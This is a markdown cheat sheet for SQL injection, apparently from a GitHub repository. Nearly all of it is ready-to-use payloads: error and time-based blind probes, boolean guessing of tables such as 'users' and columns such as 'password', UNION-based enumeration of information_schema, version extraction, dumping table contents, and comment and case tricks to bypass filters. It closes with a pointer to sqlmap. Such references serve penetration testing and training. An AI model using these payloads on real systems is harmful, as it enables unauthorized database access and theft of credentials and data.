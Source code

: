 ## SQL-Injection-cheat-sheet

* First try to figure out the vulnerable parameter

__NOTE: If it's a GET request don't forget to url encode the characters.__

```
param='  --> try to get error

param="   --> try to get error

param=' or 1=1 --> try if it works

param=' or 1=0  --> check if it returns nothing

param=' and 1=1  --> check if this works or produces error
```

Try with blind injection payloads if above commands does not produce error

```

' or sleep(2) and 1=1#  --> try get delay, sleep only operates when all other conditions are true and there is a requirement to operate it.

' or sleep(2)#  --> try get delay

admin' and sleep(2)#  --> will delay only if the user admin exists

' union select sleep(2),null#  --> check if it produces delay

' union select sleep(2),null,null,null,null#  --> check if it produces delay, check for different number of columns

```


Try if above queries work by appending comment at the end

```
param=' or 1=1#  --> try if it works

param=' or 1=1 -- one space needed  --> try if it works

param=' or 1=1 //  --> try if it works

param= or 1=1#  --> try if it works

param=and or 1=1#  --> try if it works

param=' or 1=1-- sd  --> try if it works

' AND (select 1)=1 <-- This should be TRUE Response -- subselect supported

```

* Now that we know the vulnerable parameter, let's try guessing the table name:

```

' AND (select 1 from admin limit 0,1)=1 <-- FALSE

' AND (select 1 from users limit 0,1)=1 <-- TRUE  ======> Table found 'users'
```


* Guessing Columns:

```
' AND (select substring(concat(1,pass),1,1) from users limit 0,1)=1 <-- FALSE

' AND (select substring(concat(1,password),1,1) from users limit 0,1)=1 <-- TRUE    =====> Column 'password' found.
```


* Now determine number of columns in the current table

```
param=' or 1=1 order by 1#

param=' or 1=1 order by 10#
```

let say there are 3 columns

* Now determine vulnerable columns or columns which are visible

```
param=' or 1=0 union select null,null,null# --> if it produces no error then try

param=' or 1=0 union select 1,2,3#  --> check which number shows in web page
```

Else try

```
param=' or 1=1 union select table_name,null,null from information_schema.tables#

if it produces error try table_name at other positions
```

Now, lets say column 1,2 are shown in web page

* To futher enumerate

```
param=' or 1=0 union select table_schema,null,null from information_schema.columns#  --> display all database name

Note 1=0 in above query to show only databases

param=' or 1=0 union select version(),null,null from information_schema.columns#  --> retrieve version

param=' or 1=0 union select @@version,null,null from information_schema.columns#  --> retrieve version in mssql

param=' or 1=0 union select substring(version(),1,1)=1,null,null from information_schema.columns#  --> return true if version is 1.x.x

param=' or 1=0 union select substring(version(),1,1)=5,null,null from information_schema.columns#  --> return true if version is 5.x.x

param=' or 1=0 union select substring(version(),3,1)=2,null,null from information_schema.columns#  --> return true if version is 5.2.x

param=' or 1=0 union select table_name,null,null from information_schema.columns#  --> display all table name

param=' or 1=1 select table_name,null,null from information_schema.columns where table_schema='public'#  --> display tables inside public database

param=' or 1=1 select column_name,null,null from information_schema.columns where table_schema='public' and table_name='info'#  --> display all columns of info table

param=' or 1=1 select table_name as table,column_name as column,null from information_schema.columns#

Let say the database name is public and table name is info

Let the table info has two columns id and name

param=' or 1=0 union select id,null,null from public.info#  --> display id column from table "info"

param=' or 1=0 union select id,name,null from public.info#  --> display id and name column from table "info"

param=' or 1=0 union select id,name,null from public.info where id='papa'#  --> display id and name of 'papa'
```


* BYPASSING filters

we can use case switching or commenting to bypass basic filters

```
param=' or 1=0 UniOn selEct id,null,null FroM public.info#

param=' or 1=0 un/**/ion sele/**/ct id,null,null fr/**/om public.info# works in mssql
```

* For Oracle DB

Oracle does not have information schema and thus we need some alternatives for it. The link below can be helpful.

https://stackoverflow.com/questions/8739203/oracle-query-to-fetch-column-names


* For Adanced exploitation, we may use sqlmap

## Useful Resources

http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

http://garage4hackers.com/showthread.php?t=1990


